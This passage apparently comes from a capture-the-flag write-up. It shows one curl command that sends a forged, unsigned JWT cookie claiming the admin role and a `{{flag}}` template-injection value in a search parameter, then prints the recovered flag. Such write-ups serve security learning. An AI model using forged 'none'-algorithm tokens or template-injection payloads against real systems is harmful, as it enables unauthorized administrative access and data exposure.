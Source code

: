 We search for `{{flag}}` and receive the flag:

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Thunderstorm_of_hail_and_fire]
└─$ curl 'https://arendelle.plagues-of-egypt.com/admin?search=%7B%7Bflag%7D%7D' -H 'Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGc
iOiJub25lIn0.eyJ1c2VybmFtZSI6IkVsc2EiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjEzODYyODA4MDAwMDB9.' -s | grep result
                result: BSMCH{Elsa&#39;s_S3cur1ty_M3ltD0wn}
```

The flag: `BSMCH{Elsa's_S3cur1ty_M3ltD0wn}`